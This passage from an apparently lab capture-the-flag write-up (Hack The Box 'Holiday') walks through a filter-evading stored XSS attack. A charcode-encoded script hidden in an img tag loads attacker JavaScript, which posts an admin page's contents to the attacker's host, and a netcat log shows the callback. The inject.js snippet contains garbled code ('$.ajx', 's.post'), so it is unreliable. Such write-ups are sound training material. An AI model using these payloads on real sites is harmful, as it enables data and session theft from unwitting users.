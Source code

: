 This will create javascript that will try to grab the inject.js file from my waiting webserver. Now we need to convert the payload to evade the protection. Use iPython to do this:

```text
root@kali:~/htb/holiday# ipython3

Python 3.7.7 (default, Apr  1 2020, 13:48:52)
Type 'copyright', 'credits' or 'license' for more information
IPython 7.14.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: def createEncodedJS(ascii)
   ...:    decimal_string = ""
   ...:    for char in ascii:
   ...:        decimal_string += str(ord(char)) + ","
   ...:    return decimal_string[:-1]
```

This will take an input of ascii, and go through it one character at a time outputting the equivalent charcode for it.

Now use this to convert the payload further up:

```text
In [2]: createEncodedJS("""document.write('<script src="http://10.10.14.35/inject.js"></script>');""")
```

In to charcode:

```text
Out[2]: '100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,53,47,105,110,106,101,99,116,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59'
```

Now we hide this in an img tag:

```text
<img src="x/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,53,47,105,110,106,101,99,116,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">
```

Now we need to create the inject.js file that the box will pull from us:

```text
root@kali:~/htb/holiday# cat inject.js
var url = "http://127.0.0.1:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65";
$.ajx({method: "GET",url: url.success: function(data)
{ s.post("http://10.10.14.35", data);}});
```

Now submit the above payload in the Notes section of the website, and watch our waiting NetCat listener, where we soon see the connection to us:

```text
root@kali:~/htb/holiday# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.25] 38012
GET /inject.js HTTP/1.1
Accept: */*
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.14.35
```

